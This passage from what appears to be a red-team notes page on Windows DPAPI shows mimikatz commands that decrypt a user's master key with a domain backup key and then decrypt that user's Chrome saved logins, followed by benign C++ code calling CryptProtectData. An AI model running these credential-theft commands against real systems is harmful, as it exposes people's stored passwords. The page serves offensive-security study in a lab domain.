 {% code title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 17-11-48.png>)

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 17-16-47.png>)

## Using DPAPIs to Encrypt / Decrypt Data in C++

### CryptProtectData

The below code will use `CryptProtectData` to encrypt a set of bytes that represent a string `spotless`and write the encrypted blob to the file on the disk:

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <dpapi.h>

int main()
{
	DATA_BLOB plainBlob = { 0 };
	DATA_BLOB encryptedBlob = { 0 };
	BYTE dataBytes[] = "spotless";
	HANDLE outFile = CreateFile(L"c:\\users\\mantvydas\\desktop\\encrypted.bin", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
	plainBlob.pbData = dataBytes;
	plainBlob.cbData = sizeof(dataBytes);
	
	CryptProtectData(&plainBlob, NULL, NULL, NULL, NULL, CRYPTPROTECT_LOCAL_MACHINE, &encryptedBlob);
	WriteFile(outFile, encryptedBlob.pbData, encryptedBlob.cbData, NULL, NULL);

	return 0;
}
```
